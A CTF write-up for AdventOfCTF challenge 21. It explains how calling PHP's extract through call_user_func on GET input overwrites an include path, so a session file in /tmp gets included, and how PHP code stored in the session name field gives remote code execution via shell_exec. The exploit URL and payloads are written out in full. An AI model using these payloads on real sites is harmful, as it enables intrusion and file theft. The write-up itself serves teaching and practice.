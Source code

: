 +++
author = "Maik de Kruif"
title = "Challenge 21"
subtitle = "Challenge 21 - AdventOfCTF"
date = 2021-02-26T11:45:53+01:00
description = "A writeup for challenge 21 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/a4afd1fffb0b662d849a6907767f0625.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "php",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2100

## Description

We are testing a new mechanism to filter out malicious content from URLs. This application is the test page for this feature. I hope it works, these hackers are very active!

The flag is in /flag.txt

Visit <https://21.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with some PHP code:

```php
<?php
error_reporting(0);

ini_set('display_errors', 0);
ini_set('open_basedir', '/var/www/html:/tmp');

# Make sure no evil things are passed in the URL
$file = 'filters.php';
$func = isset($_GET['function'])?$_GET['function']:'filters';
call_user_func($func,$_GET);
include($file);

# Save the name for later
session_start();
if ($_POST["name"]){
    $_SESSION["name"] = $_POST["name"];
}

header("Location: /index.php");
exit();
?>
```

Besides this, we can also see an input field for a name. From it's source, we can tell it send a `POST` request to `/get_flag.php` upon submitting the form.

## Analyzing the code

Let's start by going over the PHP code line by line.

```php
ini_set('display_errors', 0);
ini_set('open_basedir', '/var/www/html:/tmp');
```

The code starts by setting two PHP settings. The first one is pretty obvious; it disables the display of errors. The second one is a little more interesting. If we take a look at the [php documentation](https://www.php.net/manual/en/ini.core.php#ini.open-basedir) we find the following:

> Limit the files that can be accessed by PHP to the specified directory-tree, including the file itself.
> [...]
> When a script tries to access the filesystem, for example using include, or fopen(), the location of the file is checked. When the file is outside the specified directory-tree, PHP will refuse to access it.

This means we can, thus, only read files from the `/var/www/html` and `/tmp` directory. This is peculiar as we normally don't need to read anything from the `/tmp` folder.

```php
# Make sure no evil things are passed in the URL
$file = 'filters.php';
$func = isset($_GET['function'])?$_GET['function']:'filters';
call_user_func($func,$_GET);
include($file);
```

Moving on ot the next part, two variables are set: `$file` and `$func`. `$file` is set to a path which is later included with `include($file)`. To set the `$func` variable, the code will first check if `$_GET['function']` exists, and if so sets the variable to it, otherwise, the variable is set to the string `"filters"`.

After setting these variables, the script will execute `call_user_func` with two parameters. To see what this function does, we can have a look at the [docs](https://www.php.net/manual/en/function.call-user-func.php) again:

> Calls the callback given by the first parameter and passes the remaining parameters as arguments.

This means it will execute the function saved in `$func`, which, we can set using the `GET` parameter `function`. It also passes all `GET` parameters as arguments.

After calling `call_user_func`, it [includes](https://www.php.net/manual/en/function.include.php) the `$file` variable. This means it will take the contents of the file at the path saved in `$file` and pretend it was written here.

```php
# Save the name for later
session_start();
if ($_POST["name"]){
    $_SESSION["name"] = $_POST["name"];
}
```

This part is also interesting. The code start a session and, if the `"name"` parameter exists in a `POST` request to this page, saves it to this session.

The interesting part is that we don't see it being used anywhere.

```php
header("Location: /index.php");
exit();
```

Finally, the script will add a `Location` header with `/index.php` as the content, this is basically a redirect, and then exits the process.

### Summary

Let's put this all together.

Firstly, the code restricts the read access of our program to `/var/www/html` and `/tmp`. It then, if it exists, calls the function passed in the `GET` parameter `function`. If it isn't set, it will call the `filters` function instead. Afterwards, it includes a file at the path saved in `$file`.

After all of this, it will start a session and, if the `POST` parameter `name` is set, saves the contents of that parameter to the session.

## Finding the vulnerability

The goal is to read the `/flag.txt` file which is not saved in either `/var/www/html` nor `/tmp`. This means we cannot exploit the `include` function to read it directly.

Let's have another look at the bottom code for the session. A variable in the session is set, but where is it actually saved? As PHP doesn't "run" like a python server would, it can't save it to memory. This means the session is probably saved to a file.

If we have a look on Google, we can find that PHP sessions are saved as separate files in the OS's temporary directory. For Linux, this is `/tmp`.

Hooray! This means the `include` function can access the session files. This is quite useless though if we can't actually use the include function. So let's get to that first.

### Including files

The only way to include a file from what I can see is to either use `call_user_func` to include a file, or use `call_user_func` to somehow overwrite the `&file` variable.

The first approach won't work though as `GET` parameters always have a name, and the `include` function doesn't use those.

There is, however, a way to overwrite the `&file` variable. We can do this using PHP's `extract` function.

From the [docs](https://www.php.net/manual/en/function.extract):

> extract — Import variables into the current symbol table from an array

In English, this means it imports the variables from the passed array into our code.

This is great as the passed array is the `$_GET` array. This is an array in which all our `GET` parameters are saved. This means that if we add a parameter with the name "file", it will, hopefully, overwrite the existing variable.

Let's test this. Firstly we have to set the name variable. To do this we can just enter some text in the input field and press submit. After this, we can make a `GET` request to `/get_flag.php` to read the file.

To make this request, we first need the session token. We can find in the cookies in our browser. For me, it was `e62ac597cd97e0638d898fff45c3b878`. Afterwards, we can make a request like this to get the contents of our session file: `/get_flag.php?function=extract&file=/tmp/sess_e62ac597cd97e0638d898fff45c3b878`.

This then returns the following:

```text
name|s:15:"Your cool name!";
```

As we can see, our input is directly saved to the file. Because we are reading the file using `include`, it also executes any PHP code it finds there. Let's verify that by setting our name to `<?php phpinfo(); ?>`.

If we now open the page with our file read again, we see the PHP info.

## Exploit

Now that we have PHP injection, we can easily turn this into Remote Code Execution (RCE). We do this by using the `shell_exec` function like so:

```php
<?php echo shell_exec("ls"); ?>
```

If we send this as the name, we get the following result:

```text
name|s:31:"error_pages
favicon.ico
filters.php
get_flag.php
index.php
logo.png
style.css
";
```

The description told us the flag was located at `/flag.txt` so let's open it using the following input:

```php
<?php echo shell_exec("cat /flag.txt"); ?>
```

## Solution

We got the flag! It is `NOVI{extract_1s_ev1l_on_us3r_inpu7}`.
